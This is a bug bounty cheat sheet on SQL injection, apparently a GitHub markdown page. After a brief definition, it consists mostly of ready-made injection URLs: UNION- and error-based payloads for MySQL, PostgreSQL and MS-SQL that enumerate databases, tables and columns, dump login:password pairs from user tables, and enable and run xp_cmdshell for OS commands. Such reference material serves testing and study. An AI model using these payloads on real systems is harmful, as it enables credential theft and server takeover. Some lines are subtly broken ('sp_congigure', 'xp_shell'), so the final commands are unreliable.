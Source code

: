 	

## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#introduction)

It is an attack in which an attacker inserts untrusted data in the application that results in revealing sensitive information of the database.

SQL Injection (SQLi) is a code injection attack where an attacker manipulates the data being sent to the server to execute malicious SQL statements to control a web application’s database server, thereby accessing, modifying and deleting unauthorized data. This attack is mainly used to take over database servers.

- In-band SQLi (Classic SQLi)
- Error-based SQLi
- Union-based SQLi
- Inferential SQLi (Blind SQLi)
- Boolean-based (content-based) Blind SQLi
- Time-based Blind SQLi
- Out-of-band SQLi

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#where-to-find)

Everywhere

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#how-to-exploit)

# SQLI tricks

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#sqli-tricks)

## GET

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#get)

### Error-Based

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#error-based)

### Simple test

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#simple-test)

`Adding a simpe quote '`

Example: `http://vulnerable-website.com/Less-1/?id=5'`

### Fuzzing

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#fuzzing)

Sorting columns to find maximum column

`http://vulnerable-website.com/Less-1/?id=-1 order by 1`

`http://vulnerable-website.com/Less-1/?id=-1 order by 2`

`http://vulnerable-website.com/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---

### Finding what column is injectable

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#finding-what-column-is-injectable)

**mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql** `http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

one of the columns will be printed with the respective number

---

#### Finding version

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#finding-version)

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, version()` **mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s

#### Finding database name

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#finding-database-name)

`http://vulnerable-website.com/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**

#### Finding usernames logged in

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#finding-usernames-logged-in)

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**

#### Finding databases

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#finding-databases)

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**

#### Finding table names from a database

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#finding-table-names-from-a-database)

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**

#### Finding column names from a table

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#finding-column-names-from-a-table)

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

#### Concatenate

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#concatenate)

Example:

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login from users;` `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**

### Error Based SQLI (USUALLY MS-SQL)

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#error-based-sqli-usually-ms-sql)

#### Current user

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#current-user)

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`

#### DBMS version

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#dbms-version)

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`

#### Database name

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#database-name)

`http://vulnerable-website.com/Less-1/?id=-1 or db_name(0)=0 --`

#### Tables from a database

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#tables-from-a-database)

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`

#### Columns within a table

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#columns-within-a-table)

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`

#### Actual data

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#actual-data)

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`

#### Shell commands

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#shell-commands)

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/SQL%20Injection.md#enabling-shell-commands)

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`


